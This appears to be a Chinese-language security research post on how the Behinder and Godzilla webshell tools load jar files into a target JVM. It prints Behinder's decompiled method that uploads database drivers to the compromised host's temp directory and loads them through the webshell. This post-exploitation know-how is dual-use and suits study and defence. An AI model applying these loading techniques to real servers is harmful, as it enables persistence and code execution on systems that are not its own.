 打一个jar进去通常有两个用处：

一是可以用来上传数据库驱动。

二是把恶意类打入JVM中，后续只需要通过反射调用即可。哥斯拉的实现方式就是第一次就把所有的payload打入jvm中，后续通过反射调用。所以后续通信的流量包都非常的小，只需要传递参数即可。



冰蝎跟哥斯拉都有类似的功能，研究了一下他们的实现。

#### 冰蝎

冰蝎的加载jar功能内嵌于数据库连接部分，仅用于上传数据库驱动。首先把要打入的jdbc上传到目标的临时目录，然后再用URLClassLoader去加载，这里贴一下代码。

net.rebeyond.behinder.ui.controller.DatabaseViewController#loadDriver

```
  private void loadDriver(String scriptType, String databaseType) throws Exception {
      String driverPath = "net/rebeyond/behinder/resource/driver/";
      Platform.runLater(() -> {
         this.statusLabel.setText("正在上传数据库驱动……");
      });
      String os = this.currentShellService.shellEntity.getString("os").toLowerCase();
      //根据系统型号选择临时目录
      String remoteDir = os.indexOf("windows") >= 0 ? "c:/windows/temp/" : "/tmp/";
      String libName = null;
      if (scriptType.equals("jsp")) { //根据类型选择数据库jdbc
         if (databaseType.equals("sqlserver")) {
            libName = "sqljdbc41.jar";
         } else if (databaseType.equals("mysql")) {
            libName = "mysql-connector-java-5.1.36.jar";
         } else if (databaseType.equals("oracle")) {
            libName = "ojdbc5.jar";
         }
      } else if (scriptType.equals("aspx")) {
         if (databaseType.equals("mysql")) {
            libName = "mysql.data.dll";
         } else if (databaseType.equals("oracle")) {
            libName = "Oracle.ManagedDataAccess.dll";
         }
      }

      byte[] driverFileContent = Utils.getResourceData(driverPath + libName);
      String remotePath = remoteDir + libName;
      //将jar先上传到临时目录
      this.currentShellService.uploadFile(remotePath, driverFileContent, true);
      Platform.runLater(() -> {
         this.statusLabel.setText("驱动上传成功，正在加载驱动……");
      });
      //将libPath传递给服务端加载
      JSONObject loadRes = this.currentShellService.loadJar(remotePath);
      if (loadRes.getString("status").equals("fail")) {
         throw new Exception("驱动加载失败:" + loadRes.getString("msg"));
      } else {
         Platform.runLater(() -> {
            if (scriptType.equals("jsp")) {
               this.statusLabel.setText("驱动加载成功，请再次点击“连接”。");
            }

            this.statusLabel.setText("驱动加载成功。");
         });
      }
   }
```
